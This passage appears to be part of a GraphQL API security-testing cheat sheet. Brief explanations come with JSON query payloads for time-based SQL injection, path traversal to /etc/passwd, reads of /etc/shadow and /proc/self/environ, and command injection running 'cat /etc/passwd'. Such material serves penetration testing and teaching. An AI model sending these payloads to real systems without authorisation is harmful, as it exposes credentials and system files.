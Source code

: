 ```json
{
  "query": "query { login(email: \"test@test.com\", password: \"anything%' OR SLEEP(5) --\") { token } }"
}
```

---

### 7. File Path Traversal

**Explanation:**
Some APIs allow reading files. If not secured, you can try jumping out of the app folder with `../` to access system files.

**Payload:**

```json
{
  "query": "query { readFile(path: \"../../../../etc/passwd\") { content } }"
}
```

---

### 8. Absolute Path Disclosure

**Explanation:**
If the API reads files directly, try full paths like `/etc/shadow` or `/proc/self/environ` to leak system data.

**Payload:**

```json
{
  "query": "query { readFile(path: \"/etc/shadow\") { content } }"
}
```

---

### 9. Command Injection

**Explanation:**
If there’s a resolver that runs system commands, try injecting shell commands like `ls`, `cat`, etc.

**Payload:**

```json
{
  "query": "query { runCommand(input: \"cat /etc/passwd\") }"
}
```

---
